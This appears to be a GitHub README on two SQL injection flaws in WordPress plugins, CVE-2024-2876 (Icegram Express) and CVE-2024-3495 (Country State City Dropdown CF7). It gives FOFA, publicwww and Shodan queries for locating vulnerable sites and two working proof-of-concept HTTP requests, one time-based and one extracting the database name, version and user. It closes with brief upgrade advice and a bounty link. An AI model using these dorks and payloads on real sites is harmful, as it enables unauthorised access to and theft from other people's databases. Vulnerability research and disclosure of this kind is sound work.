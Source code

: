 ### Description CVE-2024-2876
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Description CVE-2024-3495
The Country State City Dropdown CF7 plugin for WordPress is vulnerable to SQL Injection via the ‘cnt’ and 'sid' parameters in versions up to, and including, 2.7.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query CVE-2024-2876
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"
### Query CVE-2024-3495
- FOFA : body="/wp-content/plugins/country-state-city-auto-dropdown" && header="HTTP/1.1 200 OK"
- Publicwww : "/wp-content/plugins/country-state-city-auto-dropdown"
- shodan : "http.title:admin-ajax.php"

### Proof of concept CVE-2024-2876
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```
### Proof of concept CVE 2024-CVE-2024-3495
```bash
POST /wp-admin/admin-ajax.php HTTP/2
Host: [target.com]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 172

action=tc_csca_get_states&nonce_ajax=[targetnonce]&cnt=1+or+0+union+select+concat(0x64617461626173653a,database(),0x7c76657273696f6e3a,version(),0x7c757365723a,user()),2,3--+-
```

### How to fix ? for [CVE-2024-2876]
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

### Bounty Info [CVE-2024-2876]
https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/

